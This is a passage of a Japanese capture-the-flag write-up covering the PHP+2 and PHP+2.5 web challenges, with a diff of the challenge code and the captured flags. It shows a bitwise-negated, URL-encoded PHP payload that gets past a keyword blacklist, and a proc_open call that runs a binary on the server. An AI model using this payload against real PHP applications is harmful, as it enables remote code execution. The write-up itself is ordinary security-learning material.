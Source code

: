 ```
$ python generate.py
%24a%3D%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%3B%24b%3D%24a%28NULL%2C%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B%24b%28%29%3B
```

`0=var_dump(1);` と `thisfile=/` 、`input=%24a%3D%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%3B%24b%3D%24a%28NULL%2C%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B%24b%28%29%3B` を GET パラメータに追加すると `int(1)` と表示されました。

あとは PHP+1 と同じです。`$proc=proc_open('/readFlag',[['pipe','r'],['pipe','w'],['pipe','w']],$pipes);var_dump(stream_get_contents($pipes[1]));` でフラグが得られました。

```
inctf{LOL!!That_was_warmup_Try_PHP+2}
```

### PHP+2.5 (744)
> Last challenge, can you solve PHP+2.5?
> 
> (URL)

PHP+1.5 の続きのようです。diff を取ってみましょう。

```diff
>diff -u "..\PHP+1.5\index.php" index.php
--- "..\\PHP+1.5\\index.php"    2019-09-22 06:23:42.992960100 +0900
+++ index.php   2019-09-22 22:46:04.104111300 +0900
@@ -18,6 +18,10 @@
   }

   unset($blacklist);
+  if(strlen($input)>100){  #That is random no. I took ;)
+    echo "This is getting really large input..." . "<br>";
+    return true;
+  }
   return false;
 }
```

ユーザ入力が 100 文字以下であるかどうかのチェックが加えられたようです。PHP+1.5 と同じコードが利用できます。`$proc=proc_open('/readFlag',[['pipe','r'],['pipe','w'],['pipe','w']],$pipes);var_dump(stream_get_contents($pipes[1]));` `thisfile=/` 、`input=%24a%3D%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%3B%24b%3D%24a%28NULL%2C%9A%89%9E%93%D7%DB%A0%B8%BA%AB%A4%CF%A2%D6%C4%5E%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%FF%29%3B%24b%28%29%3B` を GET パラメータに追加するとフラグが得られました。

```
inctf{Getting_segmentation_fault is_fun}
```

### s3cur3-r3v (856)
> Reverse this ;)
> 
> (URL)
